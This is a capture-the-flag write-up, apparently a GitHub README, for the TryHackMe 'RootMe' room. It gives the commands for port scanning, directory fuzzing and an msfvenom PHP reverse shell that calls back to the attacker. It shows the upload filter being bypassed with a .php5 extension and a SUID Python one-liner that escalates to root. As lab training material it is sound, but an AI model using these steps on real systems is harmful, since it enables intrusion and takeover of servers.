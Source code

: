 # RootMe

## Reconnaissance
Let's start the enumeration with scanning the ports, which we can do with ```nmap```. This can be done with the command ```nmap -A -T4 <ip>```.

![nmap](https://github.com/nicolai-h/tryhackme/blob/main/root_me/images/nmap.png)

As we can see there are two ports open, port 22 for ssh and port 80 for http. The SSH version running is OpenSSH 7.6p1 and the server is an Apache server running on ubuntu. For further enumeration we can use ```ffuf``` with the command ```ffuf -w /usr/share/wordlists/dirb/big.txt -u "http://<ip>/FUZZ"```.

![ffuf](https://github.com/nicolai-h/tryhackme/blob/main/root_me/images/fuzzing.png)

The output shows us that that there are two hidden directories, panel and uploads. When entering <ip>/panel we can see that there is an upload form.

![panel](https://github.com/nicolai-h/tryhackme/blob/main/root_me/images/panel.png)

## Getting a shell
Lets see if we can upload a reverse shell through the upload form. We can create an reverse shell with the command ``` msfvenom -p php/meterpreter_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.php```. When trying to upload our reverse shell we can see that there is an filter in place that does not accept ```.php``` files. We can try to get around the filter by changing the extension to ```.php5```. That worked! Now we can go to <ip>/uploads and run the file while we try to catch the reverse shell. We can catch the reverse shell with metasploit (msfconsole). I used the payload ```php/meterpreter_reverse_tcp```. Set the options ```LHOST <your ip>``` and ```LPORT <choosen port>```.

![msf](https://github.com/nicolai-h/tryhackme/blob/main/root_me/images/msf.png)

## Privilege escalation
Now that we have gotten onto the computer we can start with the privilege escalation, we can start the enumeration with ```find / -perm -u=s -type f 2>/dev/null``` which will find the executable files with the SUID bit set.

![priv_esc1](https://github.com/nicolai-h/tryhackme/blob/main/root_me/images/priv_esc.png)

As we can see ```/usr/bin/python``` has the SUID bit set, we can use this to escalate our privileges with the command ```/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'```

![priv_esc2](https://github.com/nicolai-h/tryhackme/blob/main/root_me/images/priv_esc2.png)

And there we have it!
